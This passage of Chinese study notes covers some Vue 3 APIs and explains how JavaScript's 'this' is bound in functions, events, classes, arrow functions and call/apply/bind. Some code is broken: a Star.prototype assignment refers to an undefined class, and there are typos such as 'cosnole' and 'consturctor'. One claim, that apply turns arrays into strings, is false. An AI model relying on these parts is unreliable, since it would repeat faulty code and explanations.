- 使用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新


markRaw:

- 作用：标记一个对象，使其永远不会再称为响应式对象
- 应用场景：
  - 有些值不应该被设置为响应式数据，例如复杂的第三方类库等
  - 当渲染具有不可变数据源的大列表时，跳过响应式转换可以提高性能。


## 4. customRef

创建一个自定义 Ref，并对其依赖项跟踪和更新触发进行显示控制


实现防抖效果：


## 5. provide 与 inject

作用：实现祖孙组件之间的通信

套路：父组件有一个 provide 选项来提供数据，子组件有一个 inject 选项开始使用这些数据

具体写法：


## 6. 响应式数据判断

- isRef 检查一个值是否为一个 ref 对象
- isReactive 检查一个对象是否是由 reactive 创建的响应式代理
- isReadonly 检查一个对象是否是由 readonly 创建的只读代理
- isProxy 检查一个对象是否是由 reactive 或者 readonly 方法创建的代理


# Composition API 优势

## 1. Options API 存在的问题

使用 Vue2.x 传统配置对象式 Options API 中，新增或修改一个需求，就需要分别在 data，methods，computed 里修改


## 2. Composition API 的优势

我们可以更加优雅的组织我们的代码，函数，让相关功能的代码更加有序的组织在一起


# Vue3.x 新组件

## 1. Fragment 

- 在 Vue2.x 中组件必须有一个根标签
- 在 Vue3.x 中组件可以没有根标签，内部会将多个标签包含在一个 Fragment 虚拟元素中


好处：减少标签层级，减少内存占用


## 2. Teleport

Teleport 是一种能够将我们组件 HTML 结构移动到指定位置的技术


## 3. Suspense

等待异步组件时渲染一些额外内容，让应用有更好的用户体验


# 其他

## 1. 全局 API 的转移


# --------------

# Javascript 中的 this

# --------------

`this`是 JavaScript 语言的一个关键字。它是函数运行时，在函数体内部自动生成的一个对象，只能在函数体内部使用。


但在 JavaScript 中 this 不是固定不变的，它会随着执行环境的改变而改变。


- 默认绑定
- 隐式绑定 谁调用就指向谁（隐式丢失，参数赋值）
- 显式绑定 call, apply, bind
- new 绑定

> 优先级 4>3>2>1


- 如果单独使用，this 表示全局对象。
- 在函数中，this 表示全局对象。
- 在对象方法中，this 表示该方法所属的对象。
- 在绑定事件中，this 表示接收事件的 DOM 元素。
- 在函数中，在严格模式下，this 是未定义的(undefined)。
- 类似 call() 和 apply() 方法可以将 this 引用到任何对象。


## 1. 全局中的 this

全局中的 this 指向 window

~~~js
console.log(this)
~~~


因为 console 这个命令是从 window 中调用的，即

~~~js
window.console.log(this)
~~~


## 2. 函数中的 this

函数中的 this 同样指向 window

~~~js
function show(){
    console.log(this)
}
~~~


函数在全局定义后，同样是由 window 调用的，和 console 其实没有区别

~~~js
window.show()
~~~


## 3. 事件绑定中的 this

哪个 DOM 元素调用事件，那么事件中的 this 则指向该 DOM

~~~html
<h1 onclick="this.innerHTML = 'Hello!'">点击此文本！</h1>
~~~

> h1 调用了 onclick 事件，那么 onclick 事件中的 this 则指向 h1 标签


同理：

~~~html
<button id="btn">按钮</button>
<script>
    const btn = document.querySelector('#btn')
    btn.onclick = function () {
        console.log(this)
    }
</script>
~~~


addEventListener 一样

~~~js
const btn = document.querySelector('#btn')
btn.addEventListener('click', function () {
    console.log(this)
})
~~~


## 4. 对象中函数的 this

对象中的 this 指向该对象本身

~~~js
const obj = {
    name: 'zhangsan',
    showName() {
        console.log(this)
    },
}

obj.showName()
~~~

> 对象调用的函数，所以 this 指向对象


那么我们把函数定义在外边，this 指向是否会改变呢？

~~~js
function fn() {
    console.log(this)
}
let obj = {
    name: 'this',
    show: fn,
}

obj.show()
~~~

> 同样指向对象


这是因为 obj.show 实际上就是 obj.fn ，是由 obj 调用的这个函数，this 指向 obj


相反，如果不是 obj 调用的这个函数，那么这个函数中的 this 指向 window，如：

~~~js
function fn() {
    console.log(this)
}
let obj = {
    name: 'this',
    show: fn,
}

demo = obj.show
demo()
~~~

> obj.show 并没有执行，函数在执行的时候，this 才确定指向
>
> 相当于把函数拿出来赋值给了 demo，所以 demo 就是一个函数，函数在全局下执行，this 指向 window


函数被当做参数来执行

~~~js
function foo() {
    console.log(this)
}

function bar(callback) {
    callback()
}

let obj = {
    name: 'this',
    show: foo,
}

bar(obj.show)
~~~

> this 指向 window 


bar(obj.show)，可以看成 foo() 函数的独立调用，如：

- obj.show 相当于 foo 函数
- bar(obj.show) 就相当于 bar(foo)
- bar 函数在定义的时候，就需要执行自己的回调函数
- 那么最终被执行的就是 foo()


## 5. 嵌套函数中的 this

定义在全局的函数，this 指向 window，那么不论嵌套多少层，所有的函数都会指向 window

~~~js
function demo(){
  function show(){
    console.log(this);
  }
  show()
}

demo()
~~~


那么在对象中嵌套函数的 this 呢？

我们知道对象中函数中的 this 有隐式绑定，this 会指向对象本身，那么对象中函数中的函数的 this 会不会也指向对象？

~~~js
let obj = {
    name: 'zs',
    fn() {
        console.log(this)
        function show() {
            console.log(this)
        }
        show()
    },
}

obj.fn()
~~~


- fn() 方法中的 this 肯定是指向 obj 本身
- fn() 方法中的嵌套函数 show() 指向 window


每一个函数执行都会有一个自身的 this，对象中函数执行，this 会指向对象。但是里层的 show() 函数执行，它的外层并不是对象，且它是独立调用的。所以它不属于隐式绑定。其原理和我们在全局下定义的嵌套函数并没有什么不同，都是指向 window


## 5. 构造函数中的 this

构造函数是指利用函数的方式，通过传参来构建一个对象（本质上构造函数返回值就是一个对象）

~~~js
function Person(name, age) {
    this.name = name
    this.age = age
    this.show = function () {
        console.log(this)
    }
}

// 生成实例
const student = new Person('zhangsan', 18)
student.show()
~~~


Js 构造函数创建对象过程：

1. 执行 new 创建对象时，首先在构造函数内部创建一个空对象 var obj = {}
2. 将空的对象，赋给 this 关键字， this  = obj
3. 将一些属性方法设置在 this 上
   1. this.name = 
   2. this.show = function(){}
4. 自动将这个对象返回
   1.  `return this`
5. 将 return 的对象赋值给实例
   1. const student = new Person()


通过模拟步骤，可以看出构造函数本质上就是一个函数，只不过返回值是一个对象，而对象中的 this 指向对象本身，所以实例对象就是构造函数中的 this


### 5.2 原型对象中的 this

原型对象中的 this 指向的也是实例对象本身，因为按照谁调用指向谁的原则，在原型对象中的方法，最终调用者还是实例，所以，this 最终也指向实例。

~~~js
function Person(uname, age) {
    // this 指向实例对象
    this.uname = uname;
    this.age = age;
}

var that;
Star.prototype.sing = function () {
    console.log("我会唱歌");
    // 把原型中的 this 赋值给全局变量 that
    that = this;
};

let student = new Person("zhangsan", 18);
// 调用原型中的方法
student.sing();
// 此时 that 已经是原型中的 this 了，判断一下这个 that 是否就是我们利用构造函数创建的对象
console.log(that === student);
~~~

> student 实例中并没有 sing 这个方法，当调用 student.sing() 方法被调用时，是通过原型链找到上一层，原型上的 sing 方法。但是 this 指向不在于定义的位置，而是谁调用，this 就指向谁。所以这里的 this 就是指向 student


## 6. 类中的 this

~~~js
class Person {
    constructor() {
        this.show = function () {
            console.log(this)
        }
    }
}

let student = new Person()
student.show()
~~~

> 指向 student


~~~js
class Person {
    show() {
        console.log(this)
    }
}

let student = new Person()
student.show()
~~~

> 指向 student


~~~js
class Person {
    constructor(obj) {
        this.obj = obj
    }
}

const o = new Person({
    name: 'zs',
    show() {
        console.log(this)
    },
})

o.obj.show()
~~~

> this 指向传递进来的对象，即 obj


## 7. 严格模式下函数中的 this

JS 除了提供正常模式外，还提供严格模式 (strict mode)，ES5 的严格模式是采用具有限制性 JS 变体的一种方式。

严格模式下，函数中的 this 会显示 undefined

~~~js
'use strict'
function show() {
    console.log(this)
}
show()
~~~


## 8. 匿名函数中的 this

每个函数在调用时，都会去获取2个值： arguments和this。
匿名函数在获取这2个值时，只会搜索自己执行环境中的，永远不会直接访问外部函数或执行环境中的这2个变量。
而this指向的是自己的调用者，匿名函数的调用者=window，所以this指向window。


~~~js
function Person() {
    this.name = 'zhangsan'
    this.age = '18'
    setTimeout(function () {
        console.log(this.name + this.age)
    }, 1)
}

~~~

> setTimeout 中函数的 this 指向的是 window


有人可能会问，addEventListener 也是匿名函数啊，为什么会指向 DOM 元素而不是 Window？

~~~js
const btn = document.querySelector('#btn')
btn.addEventListener('click', function () {
    console.log(this)
})
~~~


父函数能决定子函数的 this 指向，这里的匿名函数实际上是经过处理的，不要和普通的匿名函数搞混，官方是这么解释的：

~~~
当使用 addEventListener() 为一个元素注册事件的时候，句柄里的 this 值是该元素的引用。其与传递给句柄的 event 参数的 currentTarget 属性的值一样。
~~~

> 所以事件绑定函数 addEventListener 中的匿名函数中的 this 指向是 DOM 元素而不是 Window，这点要谨记


## 9. return 中的 this

~~~js
function getObj() {
    return {
        name: 'zs',
        show() {
            console.log(this)
        },
    }
}

getObj().show()
~~~

> 不要被 return 迷惑，函数返回值是一个对象，对象中方法中的 this 指向对象本身，函数的定义位置不影响其this指向，this指向只和调用函数的对象有关。


## 10. 闭包中的 this

闭包简单理解，就是当调用一个函数的时候，导致函数被定义

~~~js
let obj = {
    name: 'zs',
    fn() {
        console.log(this)
        function show() {
            console.log(this)
        }
        return show
    },
}

obj.fn()()
~~~

> 相当于独立调用，可以把 `obj.fn()()` 当 obj.fn() 被调用后，返回一个函数 show，那么 `obj.fn()()` 就可以看成 show() ，独立调用函数，this 指向也就是 window


## 10. 箭头函数中的 this

**箭头函数没有自己的this, 它的this是继承而来; 箭头函数的this指向在定义的时候继承自外层第一个普通函数的this**

箭头函数中，this指向的固定化，并不是因为箭头函数内部有绑定this的机制，实际原因是**箭头函数根本没有自己的this，导致内部的this就是外层代码块的this。**


对象方法为箭头函数

~~~js
var obj = {
    age: 20,
    say: () => {
        // 箭头函数没有自己的 this，它的 this 继承自 obj
        // 调用 obj 的对象即是 Window
        console.log(this)
    },
}
obj.say()
~~~


箭头函数外层没有普通函数，严格模式和非严格模式下它的this都会指向window(全局对象)，

例：嵌套对象中的箭头函数

~~~js
var obj = {
    age: 20,
    internalObj: {
        say: () => {
            console.log(this)
        },
    },
}
obj.internalObj.say()

~~~

> internalObj 不是函数，所以继续向外层找找函数，没有父级函数，最终 this 指向 window


~~~js
var obj = {
    age: 20,
    hi() {
        // 这里根据上下文，因为方法里边的函数中 this 指向 obj，
        // 所以 f1 里边的箭头函数中的 this 也指向 obj
        var f1 = () => {
            console.log(this)
        }
        f1()
    },
}
obj.hi()
~~~


默认 this 绑定规则对箭头函数无效

~~~js
function foo() {
    console.log(this)
    var test = () => {
        console.log(this)
    }
    return test
}

var obj1 = {
    a: 1,
    foo: foo,
}

obj1.foo()()
~~~

> 原本 obj.foo()()  是一个函数的独立调用，现在由于函数是箭头函数，所以会向上找自己的父级函数作用域中的 this，也就是 foo() 函数中的 this


call 强制绑定对箭头函数也无效

~~~js
var obj1 = {
    a: 1,
    test: () => {
        console.log(this)
    },
}

var obj2 = {
    a: 2,
}

obj1.test.call(obj2)
~~~

> 指向 window


箭头函数不能作为构造函数使用

~~~js
var foo = ()=>{
    console.log(this)
}
var obj = new foo()
~~~

> 报错


结论：所有绑定规则全部不适用，箭头函数中的 this 取决于父环境中的 this。


## 11. 改变 this 指向的三个方法

JS 为我们专门提供了一些函数方法帮我们处理函数内部 this 的指向问题，常用的有：

- call()
- bind()
- apply()


我们使用这些函数改变 this 指向的方法为显示绑定，显示绑定的优先级要比隐式绑定高


#### 3.1.1. call()

之前说过的 call() 方法可以调用函数，通过参数的方法可以改变 this 的指向

~~~
fun.call(thisArg, arg1, arg2, ...)
~~~


call() 的返回值就是函数的返回值。

~~~js
var score = [33, 44, 60, 90];
function fun(x, y) {
    return x + y;
}
var s = fun.call(window, 1, 2);
console.log(s);
~~~


#### 3.1.2. apply()

apply() 方法调用一个函数，也可以改变 this 的指向


语法：

~~~js
fun.apply(thisArg, [argsArray])
~~~


参数：

- thisArg： 在 fun 函数运行时指定 this 值
- argsArray：传递的值，必须包含在数组里边
- 返回值就是函数的返回值，因为它就是调用函数


改变 this 指向：

~~~js
var o = {
    name: 'Andy'
}

function fn() {
    cosnole.log(this);
}

fn.apply(o);
~~~


参数必须是数组：

~~~js
var o = {
    name: 'Andy'
}

function fn(arr) {
    console.log(this)
    // 会以字符串形式显示
    console.log(typeof arr);
}

fn.apply(o,['pink']);
~~~


apply 的主要应用：

~~~js
var score = [33, 44, 60, 90];
// 可以让this 指向 null，但不建议
// var max = Math.max.apply(null, score);
// 还是谁调用指向谁
var max = Math.max.apply(Math, score);
console.log(max);
~~~

> Math.max(1,2,3,4) 普通调用不能是数组，必须是数字内容，因为 apply 会将传入的数组以字符串形式转换，所以使用 apply 调用这样写更加方便。


#### 3.1.3. bind()

bind() 方法不会调用函数，但是能改变函数内部 this 指向

~~~js
fun.bind(thisArg, arg1, arg2, ...)
~~~


- thisArg： 在 fun 函数运行时指定 this 值
- argsArray：传递的值，必须包含在数字里边
- 返回值由指定的 this 值和初始化参数改造的原函数拷贝


~~~js
var o = {
    name: 'Andy'
}

function fn() {
    cosnole.log(this);
}

// 只改变指向，不执行，但是可以返回一个函数
var f = fn.bind(o);
f();
~~~


例：点击按钮，禁止60秒后开启（发送验证码效果）

~~~js
var btn = document.querySelector('button')
btn.onclick = function(){
  this.disabled = true;
  setTimeout(function(){
    // 定时器函数里边的 this 指向 window
    // 解决方法1：可以直接写对象名，如 btn
    // 解决方法2：可以使用 that 做个 this 的复制，然后使用 that.disable
    // 解决方法3：bind 方法，绑定在计时器的匿名函数上， 
    this.disabled = false;
  }.bind(this) , 60000)
}
~~~


#### 3.1.4. call, apply, bind 总结

相同点：

都可以改变函数内部的 this 指向


不同点：

- call 和 apply 会调用函数，并且改变函数内部 this 的指向
- call 和 apply 传递的参数不一样，call 传递参数和普通函数传递参数一样，apply 必须以数组形式
- bind 不会调用函数，只改变函数内部 this 指向


主要应用场景

- call 常用作继承
- apply 常用作和数组有关系的函数
- bind 用作异步函数比较多，比如定时器


当强制绑定为值时，this 指向包装类，如果是 undefined 或 null 时，this 指向 window

~~~js
let obj = {
    name: 'zhangsan',
}

function foo() {
    console.log(this)
}
foo.call(1)		// 指向 Number 1
foo.call(undefined)	// 指向 window
foo.call(null)	// 指向 window
~~~


## 习题：

- 实例属性为 DOM 元素，实例属性绑定事件，事件中的 this 指向什么？

~~~js
var that;
class Star {
    constructor(uname, age) {
        that = this;
        this.uname = uname;
        this.age = age;
        this.btn = document.querySelector("button");
        // btn.onclick 调用 sing 方法
        this.btn.onclick = this.sing;
    }
    sing() {
        // btn.onclick 调用的 sing
        // 这里的 this 实际上指向的 btn
        // 需要使用 that 才可以获得对象中的 uname 属性
        console.log(that.uname + "唱歌");
    }
}
var ldh = new Star("刘德华", 18);
~~~


- 静态方法中的 this

~~~js
class Person {
    consturctor() {
        this.name = 'zhangsan'
        this.age = '18'
    }
    static show() {
        console.log(this)
    }
}

Person.show()
~~~

> this 指向这个类


- 优先级问题

~~~js
function foo(b) {
    this.a = b
}

var obj1 = {}
var bar = foo.bind(obj1)
bar(2)

console.log(obj1.a)		// 2
var baz = new bar(3)
console.log(obj1.a)		// 2
console.log(baz.a)		// 3
~~~

> - 如果不改变指向，那么 bar(2) 就相当于 foo(2)，foo() 中的 this 指向 window，实际上就是 var a = 2，改变指向后，那么 this 指向了 obj1，this.a 就成了 obj1 的属性值
> - 新创建了一个对象，那么 foo 函数中的 this 就指向了这个新对象，所以 baz.a 是 3，在这里 new 的优先级要比 bind 的优先级高
> - 通过 new 创建新的对象并没有对 obj1 做任何动作，所以 obj.a 还是 2


- 箭头函数指向

~~~js
const obj = { name: "张三" };
function fn() {
    // 默认函数 this 指向 window
    // 通过 call 命令这里的 this 指向 obj
    console.log(this);

    // 默认函数 this 指向 window
    // 这里是箭头函数，箭头函数所在位置中，this 的指向就是外层函数 this 指向
    // 箭头函数被定义在 fn() 中，fn() 被 call 改变了 this 的指向为 obj
    // 所以箭头函数的 this 也是 obj
    return () => {
        console.log(this);
    };
}
const resFn = fn.call(obj);
resFn();
~~~


## 12. Vue 中的 this

可以简单的把 Vue 看成一个构造函数


### 10.1 methods 方法中的 this

假设 obj 为传入的配置项，之后里边的属性和方法会被配置到 vm 上，凑合着看吧，不太严谨，反正就这么个意思

~~~js
class Vue {
    constructor(obj) {
        this.obj = obj
    }
}

const vm = new Vue({
    name: 'zs',
    hi() {
        console.log(this)
    },
})

vm.obj.hi()
~~~

> this 指向 obj （调用的是 obj）


~~~js
class Vue {
    constructor(obj) {
        this.obj = obj
    }
}

const vm = new Vue({
    name: 'zs',
    hi:()=> {
        console.log(this)
    },
})

vm.obj.hi()
~~~

> this 指向 window，没有外层函数，指向 window


~~~js
class Vue {
    constructor(obj) {
        this.obj = obj
    }
}

const vm = new Vue({
    name: 'zs',
    methods: {
        hi() {
            show = function () {
                console.log(this)
            }
            show()
        },
    },
})
vm.obj.methods.hi()
~~~

> show = function() 实际上是个匿名函数，匿名函数的 this 为 Window


~~~js
class Vue {
    constructor(obj) {
        this.obj = obj
    }
}

const vm = new Vue({
    name: 'zs',
    methods: {
        hi() {
            show = () => {
                console.log(this)
            }
            show()
        },
    },
})
vm.obj.methods.hi()
~~~

> 改为箭头函数后，外层函数为 hi() ， hi() 的 this 指向为 methods（因为是 methods 调用的），所以箭头函数中的 this


